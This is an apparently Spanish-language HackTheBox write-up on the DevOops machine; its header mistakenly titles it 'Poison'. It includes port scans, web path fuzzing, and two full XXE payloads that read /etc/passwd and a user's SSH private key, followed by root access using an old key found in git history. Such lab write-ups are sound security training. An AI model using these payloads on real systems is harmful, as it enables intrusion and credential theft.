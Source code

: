 ```yaml
---
layout      : post
title       : "Poison - HackTheBox"
author      : elc4br4
image       : assets/images/HTB/DevOops-HackTheBox/DevOops.webp
category    : [ htb ]
tags        : [ Linux ]
---
```


![](/assets/images/HTB/DevOops-HackTheBox/DevOops2.webp)

![](/assets/images/HTB/DevOops-HackTheBox/DevOops-rating.webp)

# Reconocimiento de Puertos

Para comenzar lanzo la herramienta WhichSystem para identificar ante que sistema operativo nos enfrentamos.

![](/assets/images/HTB/DevOops-HackTheBox/WhichSystem.webp)

Ya se que estamos ante una máquina Linux, asique a continuación escanearé los puertos existentes en la máquina.

```nmap
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```
Tenemos el puerto 22(ssh) y el puerto 5000 (upnp).

Pero necesito más información del puerto 5000 asique escanearé los puertos de forma más avanzada.

```nmap
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 42:90:e3:35:31:8d:8b:86:17:2a:fb:38:90:da:c4:95 (RSA)
|   256 b7:b6:dc:c4:4c:87:9b:75:2a:00:89:83:ed:b2:80:31 (ECDSA)
|_  256 d5:2f:19:53:b2:8e:3a:4b:b3:dd:3c:1f:c0:37:0d:00 (ED25519)
5000/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ahora ya tenemos algo más de información, asique procedo a enumerar el servidor web.

# Enumeración Web

Accedo desde el navegador al servidor web.

![](/assets/images/HTB/DevOops-HackTheBox/web1.webp)

Parece que el sitio está en desarrollo, pero no hay nada interesante, asique voy a fuzzear rutas.

Usaré la herramienta wfuzz para enumerar rutas en el servidor web.

`wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.91:5000/FUZZ --hl=4`

![](/assets/images/HTB/DevOops-HackTheBox/wfuzz.webp)

* upload
* feed

En la ruta feed no hay nada que pueda servirme.

Pero en la ruta upload hay un panel de subida de archivos

![](/assets/images/HTB/DevOops-HackTheBox/web2.webp)

# Explotación

Pruebo a subir una reverse shell en php y capturar la petición con Burpsuite.

![](/assets/images/HTB/DevOops-HackTheBox/revphp.webp)

Pero no ocurre nada, aunque si nos fijamos en el servidor web veremos esto.

> `XML elements: Author, Subject, Content'

Debemos subir un archivo XML que contenga los campos Author, Subject y Content.

Si hablamos de XML... se me ocurre XXE, asique buscaré información sobre la vulnerabilidad XXE.

Buscando encuentro información en la web de OWASP.

[https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)

![](/assets/images/HTB/DevOops-HackTheBox/XXE.webp)

La sintaxis del archivo será la siguiente,añadiremos los campos Author, Subject y añadiremos el campo Content.


```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
  <Author>&xxe;</Author>
  <Subject>mysub</Subject>
  <Content>mycontent</Content>
</creds>
```

Subimos el archivo y capturamos la petición con Burp.

Enviamos la petición al Repeater y la enviamos haciendo click en send.

![](/assets/images/HTB/DevOops-HackTheBox/Burp1.webp)

Y como vemos tenemos el archivo passwd para leer.

Encuentro varios usuarios

```users
git:x:1001:1001:git,,,:/home/git:/bin/bash
roosa:x:1002:1002:,,,:/home/roosa:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
blogfeed:x:1003:1003:,,,:/home/blogfeed:/bin/false
```
El más destacable es _roosa_, asique igual que he leido el archivo passwd intento leer el archivo id_rsa del usuario roosa para poder conectarme por ssh.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id-rsa" >]>
<creds>
  <Author>&xxe;</Author>
  <Subject>mysub</Subject>
  <Content>mycontent</Content>
</creds>
```

![](/assets/images/HTB/DevOops-HackTheBox/Burp2.webp)

Y ahí lo tenemos, asique me lo copio a un archivo y le asigno los permisos 400 con `chmod 400 id_rsa`.

Una vez hecho, me conecto por ssh.

![](/assets/images/HTB/DevOops-HackTheBox/ssh.webp)

Y ya podemos leer la flag user.txt


# Escalada de Privilegios

Ahora toca escalar privilegios para leer la flag root, pero para eso debemos convertirnos en el usuario root.

Enumerando encuentro carpeta .git en la ruta /home/roosa/work/blogfeed/.git asique pruebo con el comando `git log -r` a ver que obtenemos. 

![](/assets/images/HTB/DevOops-HackTheBox/git.webp)

> reverted accidental commit with proper key

Dato curioso que decido mirar, asique si ejecuto `git log -p 6`...

![](/assets/images/HTB/DevOops-HackTheBox/git2.webp)

Tenemos dos claves rsa, una en rojo y la otra en verde, creo que debido a un error revirtieron las claves rsa, por lo tanto la roja es la clave antigua asique pruebo a copiarla y usarla para conectarme por ssh como root.

![](/assets/images/HTB/DevOops-HackTheBox/rsa.webp)

Una vez lo tenemos copiado en un archivo le asigamos los permisos 600 con `chmod 600 id_rsa2` y nos logueamos por ssh como root.

![](/assets/images/HTB/DevOops-HackTheBox/root.webp)